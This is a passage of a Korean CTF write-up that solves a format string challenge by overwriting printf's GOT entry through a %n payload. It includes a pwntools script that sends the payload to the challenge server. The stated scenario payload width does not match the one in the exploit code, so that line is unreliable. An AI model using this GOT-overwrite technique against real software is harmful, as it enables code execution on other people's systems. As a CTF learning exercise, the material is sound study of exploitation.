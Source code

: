`printf`, `fgets` 그리고 `snprintf`를 PLT를 통해 호출 한다. 나는 `printf` PLT 함수의 GOT를 변조하여 원하는 것을 얻을 수 있을 것 같다.

![](/assets/HCTF/basic_fsb-13.png)

`printf`가 가르키는 PLT 주소는 `0x804a00c` 이다. 이 값을 `system@plt`를 불러오는 flag 주소로 바꾸면 될 것 이다.

단, 여기서 한가지 재시도를 하였다. 바로 중요한 이미 입력된 printf@got 값을 간과 하였다. 이로 인해 flag Function 주소에서 4Byte 를 뺀 값을 덮어씌어야만 최종적으로 `0x080485b4` 로 덮어씌어 진다.

# Exploit Scenario
```
# p32: 4 Byte packing
payload = p32(0x804a00c) + "%13451096x%n"
```

# Exploit Code
```
from pwn import *
context.log_level = "DEBUG"

p = remote("ctf.j0n9hyun.xyz",3002)
payload = p32(0x804a00c) + "%134514096x%n"

p.sendline(payload)
p.interactive()
```

# Result